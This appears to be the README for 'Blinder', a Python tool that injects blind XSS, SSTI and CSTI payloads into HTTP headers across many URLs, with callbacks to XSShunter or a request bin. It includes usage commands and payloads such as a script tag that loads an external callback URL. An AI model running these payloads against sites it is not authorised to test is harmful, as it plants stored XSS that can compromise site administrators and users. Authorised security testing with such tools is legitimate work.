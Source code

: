 # Blinder
- A script written in python3 to spread blind cross-site scripting payloads on HTTP requests headers

## Description
- Blinder is an automation tools written in python3, used to spread sending blind payloads into HTTP servers using XSShunter or custom requests bin, with custom payloads so you can test for more issues like SSTI, CSTI and XSS

![preview](https://i.imgur.com/RugY1vS.png)

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

# How To Use:
## Basic:
- That's blinder basic usage example, you just specify XSShunter username using `-u` argument and the URLs file using `-f` argument
```
python3 Blinder.py -u xsshunter -f urls-file.txt
```

## Redirections
- To disalow/allow redirects on blinder, all you need to-do is use `-r` option with either `deny` or `allow` strings

```
python3 Blinder.py -u xsshunter -f urls-file.txt -r deny
```
## Payloads and multi payloads.
- In blinder, the default payload we use is `"><script src={xsshunter-url}></script>`, But you can always use your own payload using `-p` argument.
```
python3 Blinder.py -u hacker -f urls-file.txt -p '"><img src="XXX">'
```

- If you wanna use more than one payload, you can seperate them using `,` character for example: `"><script>alert(1)</script>,"><svg/onload=alert(1)>`, if your payload requires `,` character and you can't seperate them using that character you can use `-s` option to use another character to-do that

```
python3 Blinder.py -u xsshunter -f urls-file.txt -p '<img src="XXX">,<iframe src="XXX">'
```
```
python3 Blinder.py -u xsshunter -f urls-file.txt -p '<img src="XXX">_<iframe src="XXX">' -s '_'
```

- By default, Blinder uses `XXX` as string to replace with the XSShunter/requestbin URL, incase that can't be used with your payload and your payload contains `XSS` inside of it, you can always use `--replace` argument to use another string to replace it with 

```
python3 Blinder.py -u xsshunter -f urls-file.txt -p '<img src="RRR">_<iframe src="RRR">' -s '_' --replace 'RRR'
```

## Headers
- By default, Blinder sends the payloads on the `User-agent` header because it's more likely to get stored on web application by requests logs and other stuff, you can use your custom header in case you're testing for a known vulnerability, CVE or anything else

```bash
python3 Blinder.py -u xsshunter -f urls-file.txt --header Header-name 
```

## Requests bin
- You can use your own requests bin, burpcollabrator, interactsh or anything else using `-b` argument

```bash
python3 Blinder.py -b https://request-bin.com/ -f urls-file.txt
```

### What's New?
- Threading to improve the tool performance.
- Added an option allows you to use your own requests bin instead of using XSShunter.
- Added an option where you can use your own payloads instead of the default one.
- Added an option to enable/disable redirects on requests
- Added an option where you can use more than one payload, and choose the splitting character
- Added an option allows you to use your own custom headers on HTTP requests
- Added an option allows you to select your own replace word on the payload
- Cleaner Code!

### Issues:
- Feel free to open an issue on github issue tracker, I usually respond to such stuff quickly
- If you need help, you can always find me [@DemoniaSlash](https://twitter.com/DemoniaSlash) 
